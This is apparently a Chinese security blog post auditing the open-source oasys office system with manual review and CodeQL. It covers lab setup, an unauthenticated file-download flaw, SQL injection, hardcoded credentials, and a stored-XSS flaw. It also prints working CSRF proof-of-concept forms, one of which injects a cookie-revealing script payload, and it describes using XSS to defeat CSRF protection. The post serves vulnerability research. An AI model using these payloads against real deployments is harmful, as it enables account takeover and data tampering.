




主要框架是SpringBoot+Mybatis的[项目](https://github.com/misstt123/oasys)，使用手工+CodeQL进行0day挖掘

<!-- more -->


## 1. 环境构建

本地

```
git clone https://github.com/misstt123/oasys
```

将sql脚本和资源文件复制到linux

```
[shadowflow@ShadowOS oasys]$ scp oasys.sql vuln:/tmp

[shadowflow@ShadowOS oasys]$ scp -r static vuln:/root/vuln/
```

启动mysql容器，关于容器配置不再赘述，参考[文章](https://shadowfl0w.github.io/%E6%9F%90RBAC%E7%B3%BB%E7%BB%9F%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/)

```
[root@vuln ~]# docker start my-mysql
```

将sql脚本复制到容器

```
[root@vuln ~]# docker cp /tmp/oasys.sql my-mysql:/root/
```

进入容器中的mysql

```
[root@vuln ~]# docker exec -it my-mysql bash

root@ebc3aac24bca:/# mysql -u root -p
Enter password:
```

创建数据库，加载脚本

```
mysql> create database oasys;
Query OK, 1 row affected (0.00 sec)

mysql> use oasys;
Database changed

mysql> source /root/oasys.sql
```

由于项目默认mysql是5版本，我们部署的mysql容器是8版本以上，所以需要稍加修改

添加maven配置

```
<dependency>
    <groupId>mysql</groupId>
    <artifactId>mysql-connector-java</artifactId>
    <version>8.0.15</version>
</dependency>
```

springboot配置文件修改

```
#修改驱动
spring.datasource.driver-class-name=com.mysql.cj.jdbc.Driver
#修改账号密码
spring.datasource.username=root
spring.datasource.password=123456
```

修改资源文件路径

```
file.root.path=/root/vuln/static/file
img.rootpath=/root/vuln/static/images
attachment.roopath=/root/vuln/static/attachment
```

idea远程部署直接运行就好了。


## 2. CodeQL分析

CodeQL的扫描不再赘述，扫描结果发现6类安全问题，逐一分析

**java/untrusted-data-to-external-api**

扫描到api接口暴露，并且未做权限验证，我们看一下

看一下查询代码

```
import java
import semmle.code.java.dataflow.FlowSources
import semmle.code.java.dataflow.TaintTracking
import semmle.code.java.security.ExternalAPIs
import DataFlow::PathGraph

from UntrustedDataToExternalAPIConfig config, DataFlow::PathNode source, DataFlow::PathNode sink
where config.hasFlowPath(source, sink)
select sink, source, sink,
  "Call to " + sink.getNode().(ExternalAPIDataNode).getMethodDescription() +
    " with untrusted data from $@.", source, source.toString()
```

UntrustedDataToExternalAPIConfig是标准库里的一个类，表示传递给外部API的数据的节点。

如下图看第一个结果是没有安全风险的，只是将外部数据给打印出来。



这个查询代码我们可以发现越权问题，比如我们找一些未做权限校验的敏感信息访问页面或者高危操作。比如文件下载未做权限校验，可以下载任意用户的文件

```
		 * @param fileid
		 */
		@RequestMapping("file")
		public void downFile(HttpServletResponse response, @RequestParam("fileid") Long fileid) {
			try {
				Attachment attd = AttDao.findOne(fileid);
				File file = new File(rootpath,attd.getAttachmentPath());
				response.setContentLength(attd.getAttachmentSize().intValue());
				response.setContentType(attd.getAttachmentType());
				response.setHeader("Content-Disposition","attachment;filename=" + new String(attd.getAttachmentName().getBytes("UTF-8"), "ISO8859-1"));
				proservice.writefile(response, file);
			} catch (Exception e) {
				e.printStackTrace();
			}
		}
```


**java/count-untrusted-data-external-api**

统计API

**java/mybatis-xml-sql-injection**

是Mybatis的sql注入检查，sql注入有很多，具体利用参考[上篇文章](https://shadowfl0w.github.io/%E6%9F%90RBAC%E7%B3%BB%E7%BB%9F%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/)

**java/log-injection**

日志的污点传播，不过多分析，当然在传播过程也可能出现危险操作风险

**java/hardcoded-credential-sensitive-call**

硬编码安全问题，两个弱口令

 


## 3. XSS

xss随处可见




## 4. CSRF

测试一下写便签的csrf，抓到如下包

```
POST /writep HTTP/1.1
Host: 172.16.42.151
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: http://172.16.42.151
Connection: close
Referer: http://172.16.42.151/userpanel
Cookie: csrftoken=i1qmoC5LpcStYF7s0pd0T8i4IytR6EmmRbiJplVsydqhWb7h8Ru5xl879WPPU7Xr; io=1ZhdDaE0vYHbIFLrAAAM; JSESSIONID=6F29C07D974E6F59C5CD22B7630FC55B; remember-me=YWRtaW46MTY0ODAyNDQxNDMzOTo1YzY4ZDIyOGUxY2ZjMDIzZmQ5YWVkOTYyOGZlNGUwYQ
Upgrade-Insecure-Requests: 1

notepaperId=&title=bb&concent=bb
```

修改`title`和`concent`参数，看是否可以完成csrf。

用burp生成poc

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://172.16.42.151/writep" method="POST">
      <input type="hidden" name="notepaperId" value="" />
      <input type="hidden" name="title" value="ccc" />
      <input type="hidden" name="concent" value="ccc" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

使用同一个浏览器，发现成功写入。


## 5. XSS + CSRF

上诉CSRF漏洞也存在XSS漏洞，但是这是POST型XSS，很难利用，如果结合CSRF，我们不仅能进行插入标签，还能盗取cookie等其他js脚本可以劫持的操作。

我们将poc改成获取弹出cookie

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://172.16.42.151/writep" method="POST">
      <input type="hidden" name="notepaperId" value="" />
      <input type="hidden" name="title" value="ddf" />
      <input type="hidden" name="concent" value="<script>alert(document.cookie)</script>" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

现在我们达到了只要诱骗受害者点击链接就可以插入存储xss payload，而不需要自己登录去插入payload



除了这种方式，如果存在xss，我们可以通过xss绕过csrf漏洞防护，因为csrf防护一般都是refere或者token，存在xss就可以使用js脚本来调用修改refere或者token，从而进行csrf攻击。

